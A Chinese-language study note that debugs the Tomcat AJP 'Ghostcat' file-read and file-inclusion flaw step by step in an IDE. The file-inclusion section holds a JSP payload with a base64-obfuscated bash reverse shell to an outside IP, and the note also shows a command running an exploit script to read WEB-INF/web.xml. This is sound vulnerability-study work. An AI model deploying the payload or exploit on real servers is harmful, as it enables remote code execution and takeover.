





> 本文主要参考 https://blog.csdn.net/qq_31481187/article/details/105917392 和 https://paper.seebug.org/1142/#_6 ，并无原创内容，仅仅是个人学习笔记。

<!--more-->

## 漏洞原理

官网对AJP协议的介绍如下

> The **AJP Connector** element represents a  **Connector** component that communicates with a web  connector via the `AJP` protocol.  This is used for cases  where you wish to invisibly integrate Tomcat into an existing (or new)  Apache installation, and you want Apache to handle the static content  contained in the web application, and/or utilize Apache's SSL  processing.

https://blog.hillpig.top/apache-tomcat-nginx/ 中提到了AJP协议的使用场景，可以参考一下。

该漏洞主要是由于Tomcat 对从AJP协议传来的数据没有正确解析，导致攻击者可以控制以下三个参数

- javax.servlet.include.request_uri
- javax.servlet.include.path_info
- javax.servlet.include.servlet_path

在tomcat目录下的conf/web.xml中，规定了两种servlet，分别用于处理默认类型的文件（比如静态资源）和JSP类型的路径请求。

```xml
    <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>
```


```xml
    <servlet>
        <servlet-name>jsp</servlet-name>
        <servlet-class>org.apache.jasper.servlet.JspServlet</servlet-class>
        <init-param>
            <param-name>fork</param-name>
            <param-value>false</param-value>
        </init-param>
        <init-param>
            <param-name>xpoweredBy</param-name>
            <param-value>false</param-value>
        </init-param>
        <load-on-startup>3</load-on-startup>
    </servlet>
```

map规则

```xml
    <!-- The mapping for the default servlet -->
    <servlet-mapping>
        <servlet-name>default</servlet-name>
        <url-pattern>/</url-pattern>
    </servlet-mapping>

    <!-- The mappings for the JSP servlet -->
    <servlet-mapping>
        <servlet-name>jsp</servlet-name>
        <url-pattern>*.jsp</url-pattern>
        <url-pattern>*.jspx</url-pattern>
    </servlet-mapping>
```

两种servlet导致了两个漏洞：DefaultSevlet导致了文件读取，JspServlet导致了代码执行，后者是以文件包含的形式执行的，因此要利用首先需要在目标服务器上上传文件。通过控制url访问路径，可以选择触发这两种servlet中的任意一种。

## 环境搭建

本文漏洞调试在arch linux下进行，其他系统在环境变量设置上有所差异，自行调整。

首先需要安装 java 8，在arch linux 下执行如下命令即可

```
sudo pacman -S jdk8-openjdk
```

如果事先安装了其他版本的java，在安装jdk8之后可以通过以下命令切换默认java版本

```
sudo archlinux-java set java-8-openjdk
```

然后下载tomcat8和源码

```
wget https://archive.apache.org/dist/tomcat/tomcat-8/v8.5.30/bin/apache-tomcat-8.5.30.zip
wget https://archive.apache.org/dist/tomcat/tomcat-8/v8.5.30/src/apache-tomcat-8.5.30-src.zip
```

将两个都解压，第一个是用来运行tomcat的，第二个是用来在IDEA里面调试的，调试的原理和php的remote debug类似。这里通过5005端口来进行调试通信

打开第一个文件夹里面的bin/catalina.sh，加入以下代码

```
export JAVA_OPTS='-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5005'
```

然后设置以下的环境变量，这里我将第一个文件解压出来的东西放在了/usr/local/tomcat/下面。

```
# for tomcat debug
export JAVA_HOME=/usr/lib/jvm/java-8-openjdk
export JRE_HOME=$JAVA_HOME/jre
export PATH=$PATH:$JAVA_HOME/bin:$JRE_HOME/bin
export CATALINA_HOME=/usr/local/tomcat/apache-tomcat-8.5.30
export CLASSPATH=$JAVA_HOME/jre/lib/rt.jar:$JAVA_HOME/lib/dt.jar:$JAVA_HOME/lib/tools.jar:$JAVA_HOME/lib:$CATALINA_HOME/lib
export PATH=$PATH:$JAVA_HOME/bin:$JRE_HOME/bin:$CATALINA_HOME/bin
```

执行

```
./catalina.sh start 
```

访问浏览器8080端口可以看到tomcat默认页面说明搭建成功。

然后用IDEA打开第二个文件夹中的java目录。添加配置



下断点，运行debug，然后运行exp脚本，开始调试

```
python2 CNVD-2020-10487-Tomcat-Ajp-lfi.py -p 8009 -f WEB-INF/web.xml 127.0.0.1
```


## 漏洞调试

### 文件读取漏洞

这里使用wireshark来抓取exp发出的流量。



可以看到AJP协议请求中包含了结尾的三个键值对，并且请求的是/asdf路径，因此处理这个请求的是DefaultServlet。

在``org.apache.coyote.ajp.AjpProcessor#service``中的``prepareRequest``打下断点，让程序运行到此，步进。

在prepareRequest函数里面的for循环中获取了几个特定的请求头信息，然后到这里


步进


这里mb还是Upgrade-Insecure-Requests，再步进



到这里mb的值没变，然后再往下



变成了攻击的配置项，看看setBytes函数里面做了什么


看看b的值


是请求体，然后off的值是255，len的值是33。setBytes函数中对几个变量进行了设置，这里start和end中间的那段字符串就是``javax.servlet.include.request_uri``。


然后返回，接下来同样的方法读取了值


设置


其他两个配置项都是同样的读取方式，这里不再赘述。到此位置prepareRequest()函数分析完成

---

回到prepareRequest函数所在的位置，继续往下


将请求交给了service函数，步进，一直到这里


步进，继续调可以看到wrapper选择了DefaultServlet


继续，一直到DefaultServlet#doGet方法。


request携带着攻击配置项进入了serveResource中，步进，一直到getRelativePath函数，发现这里在尝试获取request请求中的``javax.servlet.include.request_uri``。


进入if判断之后又紧接着获取了``javax.servlet.include.path_info`` 和 ``javax.servlet.include.servlet_path`` 两个属性，然后在下面进行了拼接返回


回到DefaultServlet#serveResource， 在这里获取文件资源


步进，发现会做一个path的验证


步进validate，发现这里进行了一个normalize操作


这两个while循环不允许path中出现``./``和``../``，会将其替换为空，也就是说文件读取漏洞是不能穿透到上层目录读取的。



返回到StandarRoot#getResource方法，步进到cache.getResource中


在这里，获取到了对应web路径下的文件内容并最终返回结果，至此文件读取漏洞分析完毕。

### 文件包含漏洞

首先在webapps下面写一个文件，后缀名随意

```jsp
<%
    java.io.InputStream in = Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtYyAnc2ggLWkgJj4vZGV2L3RjcC8zOS4xMDUuMTc2LjM3LzEyMzM0IDA+JjEn}|{base64,-d}|{bash,-i}").getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
%>
```

然后exp里面需要修改这部分


为


这样才可以让请求被JspServlet处理。这之后进入``org.apache.jasper.servlet.JspServlet``，直接在service方法中下断点。运行exp开始调试，跳过前面的prepareRequest环节后，来到这里


这里和之前一样也获取了``javax.servlet.include.path_info``等属性，然后进入serviceJspFile方法


生成了wrapper对象，然后调用了``wrapper.service``方法，继续调试，看到JspServletWrapper的service方法中调用了getServlet()


继续往下就可以看到这里了，代码执行成功。


## 总结

恶意配置项是如何被解析的，其实还是不是很清楚。另外有必要了解一下servlet的执行过程了。
